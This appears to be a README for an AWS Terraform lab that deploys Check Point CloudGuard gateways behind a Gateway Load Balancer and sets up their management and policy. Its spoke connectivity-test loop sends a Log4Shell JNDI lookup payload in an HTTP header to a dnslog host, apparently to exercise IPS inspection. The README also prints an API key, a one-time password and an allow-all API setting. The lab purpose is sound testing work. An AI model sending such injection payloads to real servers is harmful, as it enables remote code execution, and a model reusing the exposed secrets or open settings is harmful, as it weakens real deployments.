

# AWS lab with App spokes, TGW and CHKP VPC with CloudGuard Network Security behind GWLB

### Check Point Management SSH KEY pair

We are using existing AWS [SSH key pair](https://eu-west-1.console.aws.amazon.com/ec2/home?region=eu-west-1#KeyPairs:)

Please make sure SSH key pair exists and is referenced in `main.tf` under `cpman` module as `cpman_ssh_keypair` input variable. Default key pair name is `cpman`.

### Deploy with Terraform

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

# alias terraform
alias tf=terraform

# bring dependencies - providers, modules, ...
tf init

# bring credentials - e.g. export env vars: AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# review the code

# do credentials work?
tf plan -target module.env

# step by step deployment (to follow what was build in both code and AWS Console)

# network environment
tf apply -auto-approve -target module.env

# workloads in spokes accessible using SSM
#   used to initiate eggress and E-W traffic
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
#   shared VPC with securure Internet access and E-W inspection
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
#   deploy CGNS behind GWLB into Security (Inspection) VPC
tf apply -auto-approve -target module.cgns

# routing setup
#    route via CGNG thanks to GWLBe
tf apply -auto-approve -target module.routes

# or full deployment - one shot
tf apply -auto-approve

# CP management console
#   lets wait in CPMAN EC2 Instance serial console until ot is ready

# IP and creds for CPMAN cli access
MGMTIP=$(tf output -raw cpman_ip)
# for local Win machine Powershell? - assuming cpman private SSH key in home .ssh subfolder
echo ssh admin@$MGMTIP -i '$env:HOMEDRIVE$env:HOMEPATH/.ssh/cpman.pem'

# === MANAGEMENT CLI ===

### POLICY

# Login to Management server using SSH (above)

#   once Check Point Managemeng server is initialized => 
watch -d api status
# "API readiness test SUCCESSFUL"


# will manage using Check Point API service - allow any IP access (ok, for demo, be more specific in real world)
mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create dedicated api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key - api user credential
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json
# exit from CPMAN shell

# now we have following CPMAN information - take note for 51-tf-aws-policy terraform deployment
# management IP address
# manafement server API token - representing user "api"

# in GH workspace 
cd /workspaces/tf-aws-security-vpc-gwlb/51-tf-aws-policy
tf init
# use real values
tf plan -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA=='
# apply
tf apply -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA==' -auto-approve
# publish policy
tf apply -var CPSERVER=54.72.252.226 -var 'CPAPIKEY=eyZlQIUX+RkLa9tlXS+pkA==' -auto-approve -var publish=true

# login to SmartConsole and make sure policy package gwlb-tf created by TF deployment exists before continuing

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private

# back at CPMAN cli using SSH:
# this is how CPMAN find instances to provide with policy and provision under Check Point Management
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po gwlb-tf -cn cpman -r eu-west-1 -iam -ver R81.20
# update template to enable IPS and Identity Awareness - DO IMMEDIATELY! (before instances are provisioned)
autoprov_cfg set template -tn gwlb-configuration -ia -ips
# check full setup
autoprov_cfg show all

# monitor CME finding and provisioning gateways
tail -f /var/log/CPcme/cme.log

# wait in SmartConsole for 3 instances to appear and have policy installed

```

### CONNECTIVITY FROM SPOKE INSTANCES

Use SSM (Session Manager) to access Spoke A and Spoke B hosts

```shell
#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


```



### Cleanup - remove lab resources from AWS


``` shell
cd /workspaces/tf-aws-security-vpc-gwlb/50-aws-tgw-chkp-vpc
# remove - one by one
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

# OR one shot
tf destroy -auto-approve
```

References:
* Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
    * Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg
